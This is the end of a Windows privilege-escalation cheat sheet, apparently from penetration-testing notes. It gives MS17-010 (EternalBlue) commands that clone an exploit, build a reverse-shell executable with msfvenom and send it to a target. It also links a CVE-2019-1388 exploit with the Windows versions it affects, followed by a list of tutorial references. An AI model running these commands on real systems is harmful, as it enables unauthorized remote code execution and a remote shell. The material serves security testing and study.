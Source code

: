 If you can't use Metasploit and only want a reverse shell.

```powershell
git clone https://github.com/helviojunior/MS17-010

# generate a simple reverse shell to use
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o revshell.exe
python2 send_and_execute.py 10.0.0.1 revshell.exe
```

### CVE-2019-1388

Exploit : https://packetstormsecurity.com/files/14437/hhupd.exe.html

Working on :
- Windows 7 
- Windows 10 LTSC 10240

Failing on : 
- LTSC 2019
- 1709
- 1803

Detailed information about the vulnerability : https://www.zerodayinitiative.com/blog/2019/11/19/thanksgiving-treat-easy-as-pie-windows-7-secure-desktop-escalation-of-privilege

## References

* [Windows Internals Book - 02/07/2017](https://docs.microsoft.com/en-us/sysinternals/learn/windows-internals)
* [icacls - Docs Microsoft](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)
* [Privilege Escalation Windows - Philip Linghammar](https://xapax.gitbooks.io/security/content/privilege_escalation_windows.html)
* [Windows elevation of privileges - Guifre Ruiz](https://guif.re/windowseop)
* [The Open Source Windows Privilege Escalation Cheat Sheet by amAK.xyz and @xxByte](https://addaxsoft.com/wpecs/)
* [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)
* [TOP–10 ways to boost your privileges in Windows systems - hackmag](https://hackmag.com/security/elevating-privileges-to-administrative-and-further/)
* [The SYSTEM Challenge](https://decoder.cloud/2017/02/21/the-system-challenge/)
* [Windows Privilege Escalation Guide - absolomb's security blog](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)
* [Chapter 4 - Windows Post-Exploitation - 2 Nov 2017 - dostoevskylabs](https://github.com/dostoevskylabs/dostoevsky-pentest-notes/blob/master/chapter-4.md)
* [Remediation for Microsoft Windows Unquoted Service Path Enumeration Vulnerability - September 18th, 2016 - Robert Russell](https://www.tecklyfe.com/remediation-microsoft-windows-unquoted-service-path-enumeration-vulnerability/)
* [Pentestlab.blog - WPE-01 - Stored Credentials](https://pentestlab.blog/2017/04/19/stored-credentials/)
* [Pentestlab.blog - WPE-02 - Windows Kernel](https://pentestlab.blog/2017/04/24/windows-kernel-exploits/)
* [Pentestlab.blog - WPE-03 - DLL Injection](https://pentestlab.blog/2017/04/04/dll-injection/)
* [Pentestlab.blog - WPE-04 - Weak Service Permissions](https://pentestlab.blog/2017/03/30/weak-service-permissions/)
* [Pentestlab.blog - WPE-05 - DLL Hijacking](https://pentestlab.blog/2017/03/27/dll-hijacking/)
* [Pentestlab.blog - WPE-06 - Hot Potato](https://pentestlab.blog/2017/04/13/hot-potato/)
* [Pentestlab.blog - WPE-07 - Group Policy Preferences](https://pentestlab.blog/2017/03/20/group-policy-preferences/)
* [Pentestlab.blog - WPE-08 - Unquoted Service Path](https://pentestlab.blog/2017/03/09/unquoted-service-path/)
* [Pentestlab.blog - WPE-09 - Always Install Elevated](https://pentestlab.blog/2017/02/28/always-install-elevated/) 